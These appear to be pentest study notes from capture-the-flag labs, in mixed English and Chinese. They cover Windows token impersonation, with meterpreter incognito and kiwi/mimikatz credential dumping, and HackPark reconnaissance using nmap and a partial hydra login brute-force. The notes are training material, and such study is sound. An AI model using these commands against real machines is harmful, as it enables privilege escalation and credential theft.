 		--> Primary access tokens --  user account 
		--> Impersonation tokens --  particular process
			=> SecurityAnonymous :
				 cannot impersonate another
			=> SecurityIdentification :
				get the identity and privileges 
			=> SecurityImpersonation: 
				impersonate local system
			=> SecurityDelegation:  
				impersonate  remote system
		--> 最常被濫用的特權
			=> SeImpersonatePrivilege
			=> SeAssignPrimaryPrivilege
			=> SeTcbPrivilege
			=> SeBackupPrivilege
			=> SeRestorePrivilege
			=> SeCreateTokenPrivilege
			=> SeLoadDriverPrivilege
			=> SeTakeOwnershipPrivilege
			=> SeDebugPrivilege

		--> 查看所有權限 -- check that enable
			=> cmd : 使用 whoami /priv
			=> meterpreter> getprivs
			
		-> 隱身模組
			--> privileges(SeDebugPrivilege, SeImpersonatePrivilege)
			
			> load incognito // use incognito
			> list_tokens -g
				Delegation Tokens Available...
			> impersonate_token "BUILTIN\Administrators" 模擬管理員令牌
			> getuid
			> pgrep services.exe
			> migrate 668
			> cd C:/Windows/System32/Config
			> cat root.txt
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		meterpreter 
			> load 然後按 Tab 兩次即可。加載模組後，您將在help命令底部找到所有命令
			> load kiwi 取得系統上的所有憑證，我們可以載入 kiwi (mimikatz) 模組
			> hashdump
			> creads_all
			> search -f root.txt
## HackPark : 
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	infomation gathering : 
		--> Google 圖片： https://images.google.com/ 
			=> Pennywise
		--> sudo nmap -sV -sS -T5 -Pn 10.10.15.240
		--> sudo nmap -sV -sS -T5 -Pn --script vuln 10.10.15.240
			=>port : 80 , 3389
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	get password : 
		--> sudo hydra -l  -p http-post-form
			=> find default credentials - admin 
			=> F12 : "Network" => request
			=> /Account/login.aspx
			=> __VIEWSTATE=... UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
			=> :Login failed" -f
			